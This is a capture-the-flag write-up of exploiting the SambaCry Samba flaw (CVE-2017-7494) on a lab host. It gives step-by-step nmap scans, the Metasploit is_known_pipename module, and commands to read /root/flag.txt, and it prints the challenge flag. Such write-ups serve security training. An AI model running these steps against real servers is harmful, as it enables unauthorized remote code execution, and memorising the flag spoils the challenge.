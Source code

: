 # Vulnerability Exploitation Report: CVE-2017-7494

## Vulnerability Overview
**CVE ID**: CVE-2017-7494  
**CVSS Score**: 10.0 (Critical)  
**Description**: The SambaCry vulnerability (CVE-2017-7494) affects Samba versions 3.5.0 to 4.6.4, allowing unauthenticated remote code execution (RCE) via a maliciously crafted named pipe request. This critical flaw, exploitable through writable Samba shares, enables attackers to execute arbitrary code on the target server.

## Objective
Exploit the CVE-2017-7494 vulnerability on a target Samba server to gain unauthorized access and retrieve the `/root/flag.txt` file as part of a capture-the-flag (CTF) challenge.

## Target Information
- **Target IP**: 192.168.5.9
- **Attack Machine IP**: 192.168.0.5
- **Objective**: Retrieve the contents of `/root/flag.txt`

## Exploitation Steps

### Step 1: Network Discovery
Perform a ping scan to identify active hosts in the 192.168.5.0/24 subnet.

```
nmap -sn 192.168.5.0/24
```

### Step 2: Service Enumeration
Enumerate services on the target host (192.168.5.9) to confirm the presence of Samba.

```
nmap -sV 192.168.5.9
```

### Step 3: Launch Metasploit
Start the Metasploit Framework to access exploit modules.

```
msfconsole
```

### Step 4: Search for Samba Exploit
Search Metasploit for modules related to Samba vulnerabilities.

```
search samba
```

### Step 5: Select SambaCry Exploit Module
Choose the Metasploit module for the SambaCry (is_known_pipename) RCE vulnerability.

```
use exploit/linux/samba/is_known_pipename
```

### Step 6: Review Module Details
Display information about the selected module to understand its options and requirements.

```
info
```

### Step 7: Configure the Target Host
Set the target host to the Samba server’s IP address.

```
set RHOSTS 192.168.5.9
```

### Step 8: Execute the Exploit
Run the exploit to achieve remote code execution on the target system.

```
exploit
```

### Step 9: Navigate to Root Directory
Navigate to the `/root` directory to locate the flag file.

```
cd /root
```

### Step 10: List Directory Contents
List the contents of the `/root` directory to identify the flag file.

```
ls
```

### Step 11: Retrieve the Flag
Read the contents of the `flag.txt` file.

```
cat flag.txt
```

## Final Result
The exploitation was successful, and the flag was retrieved from the target system.

**Flag**: ncIOq5Esowk6RMXJ